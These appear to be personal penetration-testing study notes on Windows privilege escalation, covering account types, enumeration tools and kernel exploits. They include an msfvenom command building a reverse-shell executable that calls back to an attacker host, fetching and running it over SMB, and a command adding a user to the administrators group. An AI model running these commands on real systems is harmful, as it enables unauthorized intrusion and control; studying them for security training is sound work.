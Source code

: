 # Windows priv Escalation
All privilege escalations are effectively examples of access control violations

## Understanding Permission
User accounts
Service accounts 
    -  cannot login with this
    -  SYSTEM account has highest level of priveleges

Groups
Resources
* Files/Directories
* Registry

ACLs

## Spawning Admin Shells
msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST= <host ip> LPORT=<host port> -f exe -o reverse.exe
#On windows use SMB
copy  \\<host ip>\\reverse.exe
./reverse.exe
```

If RDP is available we can add our low priv user to admin group
```
net localgroup administrators <usermame> /add
```

## Priv escalation tools
winPeas, Seatbelt,(PowerUp)[https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1], (SharpUp)[https://github.com/GhostPack/SharpUp]

Seatbelt[https://github.com/GhostPack/Seatbelt]

winPeas [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS]
- Main tool
Run this command to add color to output
```
    reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

## Kernel Exploits
Finding
1. Enumerate Windows/version(systemInfo)
2.  Find matching exploits (Google, ExploitDB)
3. Compile and run
Use as a **last resort** since they can crash the system

